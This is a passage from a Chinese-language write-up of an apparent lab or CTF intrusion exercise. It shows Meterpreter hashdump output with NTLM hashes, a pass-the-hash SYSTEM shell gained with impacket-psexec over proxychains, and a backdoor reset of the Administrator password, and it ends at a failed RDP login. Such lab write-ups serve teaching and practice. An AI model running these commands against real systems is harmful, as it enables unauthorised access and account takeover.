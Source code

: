 :::warning

MS7-010 漏洞的利用要一点运气，确认漏洞存在但是不成功的话，就多试几次

:::

## 172.22.15.24 添加后门用户

尝试运行 `shell` 启动终端，但是失败了，于是尝试通过 `meterpreter-hashdump` 配合 `impacket-psexec` 获取终端

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

获取得到 `Administrator` 的哈希之后，执行 `impacket-psexec`

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-psexec administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 172.22.15.24.....
[*] Found writable share ADMIN$
[*] Uploading file QbvIybMQ.exe
[*] Opening SVCManager on 172.22.15.24.....
[*] Creating service cJdd on 172.22.15.24.....
[*] Starting service cJdd.....
[!] Press help for extra shell commands
Microsoft Windows [版本 6.1.7601]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system
```

然后更改用户密码

```bash
C:\Windows\system32> net user Administrator admin123###
命令成功完成。
```

在尝试登录 RDP 的时候，远程服务器返回错误
